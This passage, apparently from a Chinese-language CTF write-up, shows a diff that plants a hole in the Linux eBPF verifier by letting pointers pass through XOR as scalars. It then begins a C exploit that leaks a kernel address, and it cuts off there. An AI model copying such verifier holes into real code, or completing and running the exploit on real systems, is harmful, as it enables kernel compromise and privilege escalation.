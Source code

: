 ```diff
 	case BPF_XOR:
+                /* Restore the pointer type.*/
+                if (dst_reg->auth_map) {
+                         dst_reg->auth_map = false;
+                         dst_reg->type = PTR_TO_MAP_VALUE;
+                         break;
+                }
+
 		dst_reg->var_off = tnum_xor(dst_reg->var_off, src_reg.var_off);
 		scalar32_min_max_xor(dst_reg, &src_reg);
 		scalar_min_max_xor(dst_reg, &src_reg);
```

看似複雜，不過簡化後可以看成:

```diff
static int adjust_ptr_min_max_vals(...)
{
...
case BPF_XOR:
-		/* bitwise ops on pointers are troublesome, prohibit. */
-		verbose(env, "R%d bitwise operator %s on pointer prohibited\n",
-			dst, bpf_alu_string[opcode >> 4]);
-		return -EACCES;
+                if (dst_reg->type == PTR_TO_MAP_VALUE) {
+                        dst_reg->type = SCALAR_VALUE;
+                        dst_reg->auth_map = true;
+                        break;
+                }

static int adjust_scalar_min_max_vals(...)
{
	case BPF_XOR:
+                /* Restore the pointer type.*/
+                if (dst_reg->auth_map) {
+                         dst_reg->auth_map = false;
+                         dst_reg->type = PTR_TO_MAP_VALUE;
+                         break;
+                }
+
...
```



Exploit:

```c
#include <linux/bpf.h>
#include <sys/socket.h>
#include <stdio.h>
#include <assert.h>
#include "bpf_insn.h"

struct bpf_insn insns[] =
{
    BPF_GET_MAP(3, 0),

    // ------------- 0. leak kern -------------
    BPF_LDX_MEM(BPF_DW, BPF_REG_2, BPF_REG_0, 0), // r2 = r0[0]
    BPF_JMP_IMM(BPF_JNE, BPF_REG_2, 0, 11),

    BPF_MOV64_REG(BPF_REG_1, BPF_REG_0), // r1 = r0
    BPF_MOV64_REG(BPF_REG_2, BPF_REG_0), // r2 = r0
    
    BPF_ALU64_IMM(BPF_XOR, BPF_REG_0, 0), // r0 to scalar
```